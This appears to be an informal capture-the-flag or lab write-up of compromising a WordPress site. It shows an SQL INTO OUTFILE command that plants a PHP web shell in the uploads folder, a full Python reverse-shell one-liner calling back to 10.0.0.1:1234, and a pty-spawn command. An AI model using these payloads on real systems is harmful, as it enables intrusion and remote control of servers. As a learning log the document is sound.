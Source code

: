 
i wanted to get the original password that are in MD5sum, but it does not work at all with some online md5 tools and I do suck at using the appropriate tools lol (one day i'll work on it)

Her i have to find another solution, i can try to inject a file as a db administrator maybe?
or i can bruteforce a password since i remember that elly should have stg interesting( i think it was a remote, i started like 2days ago lol)
Let's first get it from an injection (bc god i do love injection)
and i can also do an injection throught the comments and "validate them" with an update from db
>Rom1 from the future, I think i've tried and i don't remember if it got useful or not lol

but i wanna put a shell inside to get data so it'll be more interesting and easier to inject it from root
So let's use the data base administrator technique!!
i will put some `php shell_exec` into a file i wanna upload to "wp-content" so i can access it by my "client" side

```sql
SELECT "<?php echo shell_exec(ls);?>" INTO outfile "/var/www/https/blogblog/wp-content/uploads/shelltest.php";
```

Ìt does work pretty well!
the time my brain use to reflect a bit, i thought that maybe having some commands without having to upload a new sh all the time would be a great idea
so let's just replace ls by $_GET=["cmd"]
so in my url i just have to tap ?cmd=mycommand at the end and so i do have a new call all the time!!!


## TIme for some reversed shell!

Now have a look at this:
[A really useful CheatSheet i do keep w/ me](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

I tried with bash/nc/php and perl but none worked so i tried the py one and it does work(  change the ip and the port to your own )

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

so yeah so cool i got a reversed shell, now it's time to spawn a tty in the website
[Another useful link, go have a look](https://netsec.ws/?p=337)

AND SCREW IT once again only py works, why seriously i dont understand?????
but alright we have now a tty

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```

And follow the complete things in the link i put upper to get your /bin/bash from your own terminal
Because what i've done here is basically starting a remote /bin/bash that is directly send to one of your port on your own Ip address and like so you get access and can control it 
The logic is I listen to one of my port and then i decide to send the remote of the shell i've spawned  into the webservice 
